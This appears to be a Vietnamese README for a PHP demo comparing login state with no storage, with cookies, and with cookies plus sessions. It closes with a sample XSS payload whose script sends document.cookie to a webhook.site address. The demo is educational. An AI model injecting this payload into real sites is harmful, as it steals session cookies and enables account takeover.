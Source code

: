 # PHP Login Demo: So sánh Cookie vs Session

## 🚀 Cách chạy từng demo

### 1. Demo **không dùng Cookie/Session**

```bash
make run-no-cookie
```
Truy cập: http://localhost:8000

Dữ liệu login không được lưu sau khi chuyển trang. Mỗi trang phải truyền thủ công thông tin người dùng.

### 2. Demo có dùng Cookie

```bash
make run-with-cookie
```
Truy cập: http://localhost:8001  

🔹 Cookie được dùng để lưu user_id phía client.  

🔹 Trình duyệt tự gửi cookie trong mỗi request.  

### 3. Demo có dùng Cookie & Session

```bash
make run-with-cookie-session
```
Truy cập: http://localhost:8002

🔹 PHP sử dụng PHPSESSID trong cookie để map với file session trên server.  

🔹 Dữ liệu người dùng được lưu hoàn toàn ở server qua $_SESSION.  

### 💡 Mục tiêu
So sánh ứng dụng thực tế của Cookie và Session

Giải thích cách duy trì trạng thái đăng nhập

Làm rõ vai trò của từng phương pháp trong lập trình web bằng PHP

### 📜 Tài liệu kèm theo
File trình chiếu LaTeX: session_cookies_presentation.tex và bản PDF tương ứng


### ⚠️ Câu lệnh XSS 

```bash
<script>
fetch("https://webhook.site/1dbe3a3a-xxxx-xxxx-xxxx-1c3f2d5f5b7c?cookie=" + document.cookie)
</script>
```

Link: https://webhook.site/